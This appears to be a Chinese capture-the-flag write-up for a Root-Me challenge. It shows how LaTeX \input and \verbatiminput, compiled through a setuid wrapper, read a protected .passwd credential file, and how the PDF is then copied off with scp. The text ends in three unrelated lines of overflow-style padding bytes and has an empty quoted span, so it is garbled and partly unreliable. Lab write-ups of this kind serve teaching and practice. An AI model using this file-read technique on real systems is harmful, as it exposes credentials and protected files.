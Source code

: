 创建了一个路径为 `/tmp/tmp.mprfMcooq7` 的临时文件。

通过代码 `vim /tmp/tmp.mprfMcooq7` 使用 vim 对这个文件进行编辑，并且复制进以下 LaTex 源码。

```latex
\documentclass{article}
\begin{document}
\input{/challenge/app-script/ch23/.passwd}
\end{document}
```

`Esc` + `:wq` 成功保存。

编译

```sh
app-script-ch23@challenge02:~$ ./setuid-wrapper /tmp/tmp.mprfMcooq7
[+] Compilation ...
[+] Output file : /tmp/tmp.jrJqLGOTOg/main.pdf
```

现在得到了 main.pdf 这个文件，里面应该有 input 进来的 .passwd 文件里的内容。

打开自己的终端，把这个 pdf 下载过来

```sh
C:\Users\Stone>scp -P 2222 app-script-ch23@challenge02.root-me.org:/tmp/tmp.jrJqLGOTOg/main.pdf .
Warning: Permanently added the ECDSA host key for IP address '[2001:bc8:35b0:c166::152]:2222' to the list of known hosts.
      _           _ _                        ___ ____
  ___| |__   __ _| | | ___ _ __   __ _  ___ / _ \___ \
 / __| '_ \ / _` | | |/ _ \ '_ \ / _` |/ _ \ | | |__) |
| (__| | | | (_| | | |  __/ | | | (_| |  __/ |_| / __/
 \___|_| |_|\__,_|_|_|\___|_| |_|\__, |\___|\___/_____|
                                 |___/ root-me.org

app-script-ch23@challenge02.root-me.org's password:
main.pdf                                                                              100%   14KB 180.9KB/s   00:00
```

发现 Flag 被注释掉了

再次打开源文件，增加一行 

`\usepackage{verbatim}`

以及将 

改为 `\verbatim{/challenge/app-script/ch23/.passwd}`

```latex
\documentclass{article}
\usepackage{verbatim}
\begin{document}
\verbatiminput{/challenge/app-script/ch23/.passwd}
\end{document}
```


[buf]: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaﾭÞ
[buf]: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaﾭÞ
[buf]: 0000000000000000000000000000000000000000ﾭÃ